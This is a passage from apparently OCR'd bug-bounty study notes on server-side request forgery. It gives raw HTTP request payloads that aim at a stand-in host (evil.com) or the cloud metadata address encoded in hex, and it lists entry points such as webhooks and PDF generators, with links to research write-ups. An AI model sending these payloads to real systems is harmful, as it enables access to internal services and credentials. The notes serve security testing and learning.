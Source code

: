             ```bash
            GET ;@evil.com/url HTTP/1.1
            Host: target.com
            Connection: close
            ```
        3.  **PHP Built-in Web Server Case Study - SSRF Through Incorrect Pathname Interpretation**

            ```bash
            GET *@0xa9fea9fe/ HTTP/1.1
            Host: target.com
            Connection: close
            ```

        [_cracking the lens by james kettle_](https://portswigger.net/research/cracking-the-lens-targeting-https-hidden-attack-surface)

    [https://portswigger.net/research/cracking-the-lens-targeting-https-hidden-attack-surface](https://portswigger.net/research/cracking-the-lens-targeting-https-hidden-attack-surface)

    > GET `@evil.com` HTTP/1.1 headers: `host` , `referer` , `X-forwarded- for`
    >
    > 1. [\*Reverse proxy misconfiguration](https://portswigger.net/research/listen-to-the-whispers-web-timing-attacks-that-actually-work#defence) by james kettle blog\*
3. **`Webhooks/Callbacks`: Features where users specify callback URLs (e.g. Slack/GitHub webhooks, payment IPNs, IFTTT-style integrations) are prime SSRF points. Test by pointing the callback to internal resources or attacker domains.**
   1. [_**A story of a nice SSRF vulnerability.**_](https://medium.com/@oXnoOneXo/a-story-of-a-nice-ssrf-vulnerability-51e16ff6a33f)
   2. \*[https://hackerone.com/reports/2301565\*](https://hackerone.com/reports/2301565*)
4. **`Other URL Inputs:` Examine any form field or API that accepts a URL for processing – e.g. link previews, content fetchers, sitemap generators. Less obvious entry points include document processors (PDF-to-text, data import) and any API that “proxies” or expands user-supplied links**
   1.  [_**SSRF AND PDF GENERATORS**_](https://docs.google.com/presentation/d/1JdIjHHPsFSgLbaJcHmMkE904jmwPM4xdhEuwhy2ebvo/htmlpresent)

       [WHITEPAPER](https://www.notion.so/WHITEPAPER-201014d507fc806d88ace61746c5f27d?pvs=21)
   2. \*\*`*for wordpress` [https://patchstack.com/articles/exploring-the-unpatched-wordpress-ssrf\*\*\*](https://patchstack.com/articles/exploring-the-unpatched-wordpress-ssrf***)
   3. [**`*PHP SSRF*`**](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/php-tricks-esp/php-ssrf.html#php-ssrf)
   4. [**`*Cloud SSRF*`**](https://book.hacktricks.wiki/en/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf.html#cloud-ssrf)

#### 5. `brute GET/POST typical ssrf params`

> [_FUZZING_](https://0xacb.com/2022/11/21/recollapse/)
>
> \[_FUZZING WITH FUFF]\(file:///D:/courses/HTB%20-%20Bug%20Bounty%20Hunter%20Path%202024.11%_[_20hide01.ir/5. Attacking Web Applications with Ffuf hide01.ir.pdf_](http://20hide01.ir/5.%20Attacking%20Web%20Applications%20with%20Ffuf%20hide01.ir.pdf)_) HTB PDF_

[ssrf-param.txt](https://www.notion.so/ssrf-param-txt-1f2014d507fc80dfad10d30dc3133c43?pvs=21)

#### 1. Parameter Discovery
